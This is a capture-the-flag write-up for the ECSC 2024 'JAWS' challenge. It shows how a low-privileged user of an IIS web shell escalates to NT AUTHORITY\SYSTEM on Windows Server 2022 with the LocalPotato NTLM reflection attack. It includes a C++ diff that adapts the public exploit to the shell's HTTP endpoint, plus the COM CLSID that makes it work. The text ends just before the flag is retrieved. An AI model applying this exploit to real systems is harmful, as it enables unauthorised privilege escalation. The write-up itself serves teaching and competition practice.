# ECSC 2024 - Jeopardy

## [misc] JAWS (1 solves)

I was walking through the local mercato, chatting with my coworker about a simple web shell I had made for remote administration on Windows. The air was filled with the delicious scents of fresh tomatoes and basil. Out of nowhere, a vendor shouted, "Patate locali!" I stopped, wondering if they were talking to me or just selling their [local potatoes](https://decoder.cloud/2023/02/13/localpotato-when-swapping-the-context-leads-you-to-system/).

The flag is located at `C:\flag\flag.txt` and is only accessible by `NT AUTHORITY\SYSTEM`.

The challenge runs on a fully patched Windows Server 2022. You will have access to a development machine with an identical setup to the target machine, with the following differences:

1. The development machine has Visual Studio installed for building and testing exploits.
2. The flag on the development machine is a placeholder dummy flag.
3. The administrator user on the development machine does not exist on the target machine.
4. The development machine is accessible via RDP and SMB, while the target machine is not.

Both machines have no internet access but can connect to your local machine.

### Target

- **Site**: [http://jaws.challs.jeopardy.ecsc2024.it](http://jaws.challs.jeopardy.ecsc2024.it)
- **Login**: `User` / `Passw0rd!`
- **Access**: HTTP (port 80)

### Development

- **Site**: [http://dev.jaws.challs.jeopardy.ecsc2024.it](http://dev.jaws.challs.jeopardy.ecsc2024.it)
- **Administrator login**: `Admin` / `Passw0rd!`
- **User login**: `User` / `Passw0rd!`
- **Access**: RDP (port 3389), SMB (port 445), HTTP (port 80)

Author: Oliver Lyak <@ly4k>

## Overview

The challenge, "JAWS" (Just A Web Shell), involved gaining code execution on a Windows machine through a web shell. Participants were given credentials for a low-privileged user account, and the web shell required authentication through either NTLM or Kerberos. Once authenticated, the IIS server running ASP.NET impersonated the authenticated user, allowing participants to execute shell commands on the operating system using built-in Windows APIs. This provided low-privileged code execution through the web interface.

The development machine mirrored the target machine and was provided to participants so they could test their exploit strategies before attempting them on the target machine.

### Demonstration

When accessing the web server, participants would be prompted for credentials. The login prompt (in Chrome) appears as shown below:



Upon successful authentication, participants could run commands within the web shell. For example, when running the `whoami` command, the output would look like this:



## Solution

The challenge description hints directly at a solution by linking to a [blog post](https://decoder.cloud/2023/02/13/localpotato-when-swapping-the-context-leads-you-to-system/) about the LocalPotato attack. This post outlines a technique that swaps a local user's authentication context with that of `NT AUTHORITY\SYSTEM` via NTLM reflection/relay attacks. This vulnerability allows participants to execute SYSTEM-level commands, even though they have only low-privileged access.

To understand the full solution, participants should review the details in the blog post. The vulnerability affects both the SMB and HTTP protocols, although Microsoft has patched SMB. HTTP endpoints are still vulnerable, particularly if they are not protected with HTTPS/TLS or Extended Protection for Authentication. The blog post discusses this in detail and provides the LocalPotato exploit, which can be found on [GitHub](https://github.com/decoder-it/LocalPotato).

The strategy for the challenge is simple: exploit the NTLM reflection vulnerability using LocalPotato. Once SYSTEM privileges are achieved, participants can run the command `cat /flag/flag.txt` to retrieve the flag.

## Exploitation

First, participants must download the LocalPotato exploit to the development machine or their local VM. Inside the `HTTPClient.cpp` file, participants can find the methods necessary to attack HTTP endpoints. However, the exploit is designed to interact with WebDAV, so it requires some modifications to work with the web shell on the challenge server.

Below is the necessary modification (with some nice-to-have debug output modifications), replacing the WebDAV-related code with HTTP request handling:

```diff
diff --git a/HTTPClient.cpp b/HTTPClient.cpp
index 5a13499..659c1bf 100644
--- a/HTTPClient.cpp
+++ b/HTTPClient.cpp
@@ -65,12 +65,10 @@ BOOL DoAuthenticatedGETHTTP(SOCKET s, wchar_t* httpPageUrl) {
     {
         return(FALSE);
     }
-    sendbuffer = ForgeHTTPWebDavRequestType0(&len, httpHost, httpPageUrl);
-    send(s, sendbuffer, len, 0);
-    reclen = recv(s, recBuffer, DEFAULT_BUFLEN, 0);
     
-    sendbuffer = ForgeHTTPWebDavRequestType1((char*)pOutBuf, cbOut, &len, httpHost, httpPageUrl);
+    sendbuffer = ForgeHTTPRequestType1((char*)pOutBuf, cbOut, &len, httpHost, httpPageUrl);
     send(s, sendbuffer, len, 0);
+    printf("[*] Sending: %s\n", sendbuffer);
 
     // handling ntlm type2 part with context swapping
     reclen = recv(s, recBuffer, DEFAULT_BUFLEN, 0);
@@ -96,11 +94,18 @@ BOOL DoAuthenticatedGETHTTP(SOCKET s, wchar_t* httpPageUrl) {
     WaitForSingleObject(event3, INFINITE);
 
     // handling ntlm type3
-    sendbuffer = ForgeHTTPWebDavRequestType3((char*)pOutBuf, cbOut, &len, httpHost, httpPageUrl);
+    sendbuffer = ForgeHTTPRequestType3((char*)pOutBuf, cbOut, &len, httpHost, httpPageUrl);
     send(s, sendbuffer, len, 0);
+    printf("[*] Sending: %s\n", sendbuffer);
 
     // getting response from server
     reclen = recv(s, recBuffer, DEFAULT_BUFLEN, 0);
+    recBuffer[reclen] = '\0';
+    printf("[*] Received: %s\n", recBuffer);
+    reclen = recv(s, recBuffer, DEFAULT_BUFLEN, 0);
+    recBuffer[reclen] = '\0';
+    printf("Received: %s\n", recBuffer);
+    exit(0);
     /*if (recBuffer[9] == '2' && recBuffer[10] == '0' && recBuffer[11] == '0') {
         printf("[+] HTTP reflected DCOM authentication succeeded!\n");
     }
@@ -274,7 +279,7 @@ int findBase64NTLM(char* buffer, int buffer_len, char* outbuffer, int* outbuffer
 }
 
 char* ForgeHTTPRequestType1(char* ntlmsspType1, int ntlmsspType1Len, int* httpPacketType1Len, wchar_t* httpIp, wchar_t* httpUrlPage) {
-    char httpPacketTemplate[] = "GET %s HTTP/1.1\r\nHost: %s\r\nAuthorization: NTLM %s\r\n\r\n";
+    char httpPacketTemplate[] = "GET / HTTP/1.1\r\nHost: localhost\r\nAuthorization: NTLM %s\r\n\r\n";
     char* httpPacket = (char*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, DEFAULT_BUFLEN);
     int b64ntlmLen;
     char httpIp_a[20];
@@ -287,7 +292,7 @@ char* ForgeHTTPRequestType1(char* ntlmsspType1, int ntlmsspType1Len, int* httpPa
     char b64ntlm[DEFAULT_BUFLEN];
     memset(b64ntlm, 0, DEFAULT_BUFLEN);
     memcpy(b64ntlm, b64ntlmTmp, b64ntlmLen);
-    *httpPacketType1Len = sprintf(httpPacket, httpPacketTemplate, httpUrlPage_a, httpIp_a, b64ntlm);
+    *httpPacketType1Len = sprintf(httpPacket, httpPacketTemplate, b64ntlm);
     return httpPacket;
 }
 
@@ -327,12 +332,9 @@ void ExtractType2FromHttp(char* httpPacket, int httpPacketLen, char* ntlmType2,
     char b64Type2[DEFAULT_BUFLEN];
     int b64Type2Len = 0;
     findBase64NTLM(httpPacket, httpPacketLen, b64Type2, &b64Type2Len);
-    printf("b64type=%s\n", b64Type2);
     char* decodedType2Tmp = base64Decode(b64Type2, b64Type2Len, ntlmType2Len);
-    printf("decodes=%s\n", decodedType2Tmp);
     memset(ntlmType2, 0, DEFAULT_BUFLEN);
     memcpy(ntlmType2, decodedType2Tmp, *ntlmType2Len);
-    printf("decodes=%s\n", ntlmType2);
 }
 
 char* ForgeHTTPWebDavRequestType3(char* ntlmsspType3, int ntlmsspType3Len, int* httpPacketType3Len, wchar_t* httpIp, wchar_t* httpUrlPage) {
@@ -353,7 +355,7 @@ char* ForgeHTTPWebDavRequestType3(char* ntlmsspType3, int ntlmsspType3Len, int*
     return httpPacket;
 }
 char* ForgeHTTPRequestType3(char* ntlmsspType3, int ntlmsspType3Len, int* httpPacketType3Len, wchar_t* httpIp, wchar_t* httpUrlPage) {
-    char httpPacketTemplate[] = "GET %s HTTP/1.1\r\nHost: %s\r\nAuthorization: NTLM %s\r\nConnection: Keep-Alive\r\n\r\n";
+    char httpPacketTemplate[] = "POST /command HTTP/1.1\r\nHost: localhost\r\nAuthorization: NTLM %s\r\nContent-Type: application/json\r\nContent-Length: 20\r\nConnection: Keep-Alive\r\n\r\n{\"command\":\"whoami\"}";
     char* httpPacket = (char*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, DEFAULT_BUFLEN);
     int b64ntlmLen;
     char httpIp_a[20];
@@ -366,7 +368,7 @@ char* ForgeHTTPRequestType3(char* ntlmsspType3, int ntlmsspType3Len, int* httpPa
     char b64ntlm[DEFAULT_BUFLEN];
     memset(b64ntlm, 0, DEFAULT_BUFLEN);
     memcpy(b64ntlm, b64ntlmTmp, b64ntlmLen);
-    *httpPacketType3Len = sprintf(httpPacket, httpPacketTemplate, httpUrlPage_a, httpIp_a, b64ntlm);
+    *httpPacketType3Len = sprintf(httpPacket, httpPacketTemplate, b64ntlm);
     return httpPacket;
 }
```

After making this change, participants can compile the code and test the exploit on the development machine. Running the modified exploit should return the user context as `nt authority\system`, indicating successful privilege escalation:



However, when trying to execute the same exploit via the web shell, we encounter an error message stating, "The privileged process failed to communicate with our COM Server".



If we refer back to the [blog post](https://decoder.cloud/2023/02/13/localpotato-when-swapping-the-context-leads-you-to-system/), it explains that the exploit relies on certain COM servers, identified by their CLSIDs, to execute the NTLM reflection attack. The CLSID is hardcoded into the exploit but can be changed by passing a new one via the command line. The blog post also lists three different CLSIDs that were tested for compatibility with the exploit.



Two of the CLSIDs tested in the blog post are compatible with Windows Server 2022. The default CLSID used in the exploit is `{854A20FB-2D44-457D-992F-EF13785D2B51}`. A straightforward solution could be to blindly switch the default CLSID to the other one known to work on Windows Server 2022, `{A9819296-E5B3-4E67-8226-5E72CE9E1FB7}`. However, understanding the differences between the two CLSIDs and their associated COM servers and permissions provides a more reliable approach to exploiting the vulnerability.

To explore these differences, we can use [OleViewDotNet](https://github.com/tyranid/oleviewdotnet) to investigate the CLSID and inspect the launch permissions for each one. First, let's examine the launch permissions for the default CLSID `{854A20FB-2D44-457D-992F-EF13785D2B51}`:



From the image, we can see that the launch permissions for this CLSID include only `NT AUTHORITY\SYSTEM`, `BUILTIN\Administrators`, and `NT AUTHORITY\INTERACTIVE`. This means that any user wishing to launch the COM server associated with this CLSID must be a member of one of these groups. To verify this, we can check our group memberships on the development machine by running the `whoami /groups` command:



As shown in the output, our session on the command line includes the `NT AUTHORITY\INTERACTIVE` group, which allows us to launch the COM server with the default CLSID from the command line. However, when we switch to the web shell and run the `whoami /groups` command again, the results tell a different story:



In the web shell session, we no longer see the `NT AUTHORITY\INTERACTIVE` group in our list of group memberships. This absence prevents the web shell from launching the COM server associated with the default CLSID, which explains why the exploit fails with the error “The privileged process failed to communicate with our COM Server.”

Next, we need to inspect the launch permissions for the alternative CLSID `{A9819296-E5B3-4E67-8226-5E72CE9E1FB7}`. Using OleViewDotNet again, we can see that this CLSID includes a much more permissive group membership:



As shown in the image, the `Everyone` group is included in the launch permissions for this CLSID. This means that any user, including those running the exploit via the web shell, can successfully launch the COM server associated with this CLSID.

Armed with this information, we can update the exploit to use the alternative CLSID `{A9819296-E5B3-4E67-8226-5E72CE9E1FB7}`. After replacing the CLSID in the exploit code and running it through the web shell, the exploit should now execute without any issues, allowing us to swap the authentication context and escalate privileges to `NT AUTHORITY\SYSTEM`. When running `whoami` via the web shell, the result should confirm that the exploit worked:



Before deploying the exploit on the target machine, it’s important to build it in "Release" mode. Building in "Debug" mode would add unnecessary debug dependencies that won’t be available on the target machine, which could prevent the exploit from running successfully. To avoid this, make sure you select "Release" mode in Visual Studio before compiling the exploit, as shown below:



Once built in "Release" mode, the next step is to modify the exploit to achieve the ultimate goal - retrieving the flag. Instead of running `whoami`, the exploit should now be adapted to run the command `cat /flag/flag.txt`. Additionally, the hardcoded default CLSID should be replaced with the CLSID that works in the web shell environment (or specify it as a command-line argument).

After making these adjustments and running the exploit on the development machine, you should be able to retrieve the dummy flag from the development machine:

